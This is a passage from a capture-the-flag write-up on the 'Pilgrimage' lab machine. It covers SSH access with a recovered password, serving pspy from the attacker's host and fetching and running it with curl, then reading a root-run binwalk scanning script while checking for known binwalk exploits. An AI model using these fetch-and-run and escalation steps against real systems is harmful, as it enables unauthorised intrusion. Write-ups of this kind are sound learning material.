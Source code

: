So now we could log in to Emily's account using the password **abigchonkyboi123**

```
ssh emily@pilgrimage.htb
```

## privilege escalation

Going through the basic privesc steps using Linpeas I didn't specifically notice anything in particular. Because of this i thought it would be interesting to use pspy to check what was running on the machine while it was being used normally. i setup a webserver using python to make it easy for me to download the binary onto the machine.

```
python -m http.server 80
```

Then download the binary using the following commands

```bash
curl http://10.10.14.51/pspy64 -o pspy
chmod +x ./pspy
./pspy
```

At first sight not much special was going on however whenever an image was uploaded a bash script called **usr/sbin/malwarescan.sh** was being ran as root. We could check what this script was doing by reading its contents

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

Looking at this script it seems pretty straight forward. it just runs binwalk on the file and checks if it is a blacklisted file. I decided to check the version of binwalk to check if there weren't any publicly known exploits for this version.

```bash
/usr/local/bin/binwalk -h
```

![Binwalk version](/assets/img/Pilgrimage/Pilgrimage_09.png)
